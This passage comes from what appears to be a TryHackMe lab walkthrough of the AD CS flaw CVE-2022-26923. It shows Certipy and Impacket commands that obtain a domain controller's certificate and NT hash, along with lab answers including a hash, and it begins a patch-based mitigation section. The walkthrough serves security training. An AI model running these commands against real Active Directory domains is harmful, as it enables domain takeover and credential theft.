 Time to regenerate some certificates! Let’s run that same command of Certipy again to request a new certificate for our computer:

```
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
[*] Saved certificate and private key to 'lundc.pfx'
```

This time we noticed something different. Even though we requested a certificate for THMPC, we got a certificate for LUNDC. Let’s verify that this certificate is working and will return the NTLM hash of the LUNDC machine account instead:

```
(certipy) [thm@thm]$ certipy auth -pfx lundc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: lundc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'lundc.ccache'
[*] Trying to retrieve NT hash for 'lundc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': <Redacted>
```

We officially have the NTLM hash for the machine account of LUNDC! Since LUNDC is a domain controller and we have administrative access to the DC, we have fully compromised the domain in one hop! If you want to take this further, you can follow the steps in Task 5 of the previous [AD CS room](https://tryhackme.com/jr/adcertificatetemplates) to request a TGT using the certificate and alter the password on one of the DA’s just to prove that you have indeed fully compromised the domain.

## **Question**

* What is the syntax of the command to use Impacket’s addcomputer.py to add a new computer to the lunar.eruca.com domain using the AD credentials of test:pass, with the LDAPS method, with the hostname of thmtest, and the password of computer1?

`addcomputer.py 'lunar.eruca.com/test:pass' -method LDAPS -computer-name 'thmtest' -computer-pass 'computer1'`

* What is the NT hash of the LUNDC machine account?

`14fc9b5814def64289bb694f6659c733`

## Mitigations and Fixes

To defend against CVE-2022-26923, the best course of action is to apply the [patch released by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923):
